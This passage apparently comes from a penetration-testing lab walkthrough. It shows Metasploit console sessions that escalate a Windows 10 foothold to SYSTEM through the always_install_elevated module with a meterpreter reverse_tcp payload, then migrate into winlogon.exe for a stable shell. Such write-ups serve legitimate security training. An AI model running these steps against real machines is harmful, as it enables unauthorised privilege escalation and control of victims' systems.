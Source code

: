 ```bash
 4   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/virtual_box_opengl_escape                Yes                      The service is running, but could not be validated.
 ```
- Background the process and use `exploit/windows/local/always_install_elevated`

```bash
msf6 exploit(multi/handler) > use exploit/windows/local/always_install_elevated
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/always_install_elevated) > set session 1
session => 1
msf6 exploit(windows/local/always_install_elevated) > run
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

- To get a stable shell we will migrate to a process owned by the system user.

```meterpreter
meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                          Path
 ---   ----  ----                         ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                       x64   0
 72    4     Registry                     x64   0

-----------------------------snip-------------------------------------

516   500   csrss.exe
 576   500   winlogon.exe                 x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 600   508   services.exe                 x64   0

meterpreter > migrate 576
[*] Migrating from 7120 to 576...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WORKSTATION-01
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : mayorsec
Logged On Users : 7
Meterpreter     : x64/windows
meterpreter > 
```
